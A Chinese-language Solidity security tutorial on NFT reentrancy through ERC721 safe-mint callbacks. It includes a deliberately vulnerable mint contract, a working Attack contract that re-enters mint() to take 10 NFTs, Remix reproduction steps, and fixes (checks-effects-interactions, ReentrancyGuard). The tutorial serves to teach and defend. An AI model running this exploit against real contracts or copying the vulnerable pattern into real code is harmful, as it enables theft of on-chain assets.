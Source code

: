 ```yaml
---
title: S16. NFT重入攻击
tags:
  - solidity
  - security
  - fallback
  - nft
  - erc721
  - erc1155
---
```


# WTF Solidity 合约安全: S16. NFT重入攻击

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍NFT合约的重入攻击漏洞，并攻击一个有漏洞的NFT合约，铸造10个NFT。

## NFT重入风险

我们在[S01 重入攻击](https://github.com/AmazingAng/WTF-Solidity/blob/main/S01_ReentrancyAttack/readme.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（[ERC721](https://github.com/AmazingAng/WTF-Solidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTF-Solidity/blob/main/40_ERC1155/readme.md)）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 `ERC721` 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 `ERC721` 和 `ERC1155` 有潜在重入风险的函数：

![](./img/S16-1.png)

## 漏洞例子

下面我们学习一个有重入漏洞的NFT合约例子。这是一个`ERC721`合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了`ERC721`合约，它主要有 `2` 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 `2` 个函数：
- 构造函数: 初始化 `ERC721` NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用`ERC721`合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了`IERC721Receiver`合约，它有 `1` 个状态变量`nft`记录了有漏洞的NFT合约地址。它有 `3` 个函数:
- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造10个NFT。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Remix复现

1. 部署`NFTReentrancy`合约。
2. 部署`Attack`合约，参数填`NFTReentrancy`合约地址。
3. 调用`Attack`合约的`attack()`函数发起攻击。
4. 调用`NFTReentrancy`合约的`balanceOf()`函数查询`Attack`合约的持仓，可以看到持有`10`个NFT，攻击成功。

![](./img/S16-2.png)

## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

  ```solidity
      function mint() payable external {
          // 检查是否mint过
          require(mintedAddress[msg.sender] == false);
          // 增加total supply
          totalSupply++;
          // 记录mint过的地址
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)

## 总结

这一讲，我们介绍了NFT的重入攻击漏洞，并攻击了一个有漏洞的NFT合约，铸造了10个NFT。目前主要有两种预防重入攻击的办法：检查-影响-交互模式（checks-effect-interaction）和重入锁。